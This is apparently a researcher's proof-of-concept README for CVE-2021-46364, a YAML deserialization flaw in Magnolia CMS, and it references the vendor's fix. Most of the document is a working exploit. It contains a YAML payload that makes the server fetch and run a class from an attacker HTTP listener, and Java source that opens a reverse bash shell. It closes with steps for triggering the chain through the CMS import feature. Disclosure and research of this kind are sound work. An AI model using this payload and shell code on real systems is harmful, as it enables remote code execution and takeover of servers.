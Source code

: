 # CVE-2021-46364: YAML Deserialization in Magnolia CMS

Magnolia (versions <=6.2.3) has a Snake YAML parser which is vulnerable to deserialization attacks that can allow an attacker to call arbitrary Java constructors when importing YAML files. 
<br/>
Remote Code Execution has been achieved using this vulnerability.
<br/>

### Vendor Disclosure:

The vendor's disclosure and fix for this vulnerability can be found [here](https://docs.magnolia-cms.com/product-docs/6.2/Releases/Release-notes-for-Magnolia-CMS-6.2.4.html#_security_advisory).

### Requirements:

This vulnerability requires:
<br/>
- Valid user credentials

### Proof Of Concept:

The following YAML was used to trigger the deserialization:
```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:4444/"]
  ]]
]
```

The Java Constructors called in the YAML are responsible for performing HTTP requests to the malicious server hosted at on "http://127.0.0.1:4444/". The resources used to run Java arbitrary code are the following:
<br/>

META-INF/services/javax.script.ScriptEngineFactory:
```
artsploit.AwesomeScriptEngineFactory
```

artsploit/AwesomeScriptEngineFactory.java (needs to be compiled using "javac", and in this case the Java code sends a reverse bash shell to "127.0.0.1:5555"):
```
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.util.List;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() throws Exception {
	String host="127.0.0.1";
	int port=5555;
	String cmd="/bin/bash";
	Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
	Socket s=new Socket(host,port);
	InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
	OutputStream po=p.getOutputStream(),so=s.getOutputStream();
	while(!s.isClosed()) {
		while(pi.available()>0)
			so.write(pi.read());
		while(pe.available()>0)
			so.write(pe.read());
		while(si.available()>0)
			po.write(si.read());
		so.flush();
		po.flush();
		Thread.sleep(50);
		try {
			p.exitValue();
			break;
		}
		catch (Exception e){}
	}
	p.destroy();
	s.close();
    }

***TRUNCATED***
```

We can use any "Import" functionality that supports YAML files in Magnolia to trigger the exploit (E.g. The Import in "Pages"):

<img src="Images/upload_yaml.png"/>

When imported, although it will result in an error, we can see below that:
- The above Java META-INF files and classes get requested from our malicious HTTP server (On the left side)
- A reverse shell connection is received back from the target (On the right side)

<img src="Images/yaml_deserialization.png"/>

### Additional Resources:

More details on the artsploit's yaml-payload can be found [here](https://github.com/artsploit/yaml-payload)
